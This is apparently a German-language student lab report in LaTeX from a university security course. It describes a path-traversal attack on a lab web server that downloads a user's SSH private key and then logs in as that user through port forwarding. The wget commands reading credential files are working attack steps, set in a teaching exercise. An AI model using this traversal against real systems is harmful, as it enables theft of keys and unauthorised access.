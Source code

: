 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\emph{walter:x:1000:1000::/home/walter:/bin/bash}. 

\noindent
Nachdem der Benutzer bekannt kann man den Inhalt des .ssh Verzeichnisses kopieren um eine ssh-Verbindung ohne Kennworteingabe zu ermöglichen. Dazu werden folgende Inhalte der Dateien im lokalen Verzeichnis unter .shh hineinkopiert (Bemerkung: das lokale Verzeichnis wurde davor geleert, sodass nur noch die Schlüssel von Walter sich drinnen befinden. In einem neuen Terminal wurden dann folgende Befehle eingegeben:


\begin{lstlisting}[caption=Get the id,label=code:beispiel1,style=simple]
user:$ wget http://localhost:2323/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/id_rsa
user:$ wget http://localhost:2323/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/id_rsa.pub
user:$ wget http://localhost:2323/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/authorized_keys
\end{lstlisting}

Um eine Verbindung 'als Walter' zu ermöglichen ist es notwendig einen erneuten Port Forwarding (d.h. neuer Terminal) zu machen mittels:
\begin{lstlisting}[caption=Port Forwarding - Tomcat Access,label=code:beispiel1,style=simple]
user:$ ssh -p 12345 -l 0xxxxxx -L 2223:192.168.20.100:22 sela.inso.tuwien.ac.at
\end{lstlisting}

Nun ist es möglich sich als Walter ohne Kennworteingabe anzmelden, dazu wurden folgende Befehle in einem erneuten Terminal eingegeben (zuerst die File Permissions richtig setzen und dann anmelden):
\begin{lstlisting}[caption=Change File Permissions and Tomcat Access,label=code:beispiel1,style=simple]
user:$ sudo chmod 600 id_rsa
user:$ ssh -p 2223 walter@localhost
\end{lstlisting}

Somit wurde eine erfolgreiche Verbindung 'als Walter' hergestellt.

\newpage

\section{Lab1b}
Im vorigen Schritt wurde eine erfolgreiche Verbindung mit dem Benutzer 'walter' hergestellt nun sollen mehrere Informationen über das gesamte Firmennetzwerk herausgefunden werden.
\end{document}
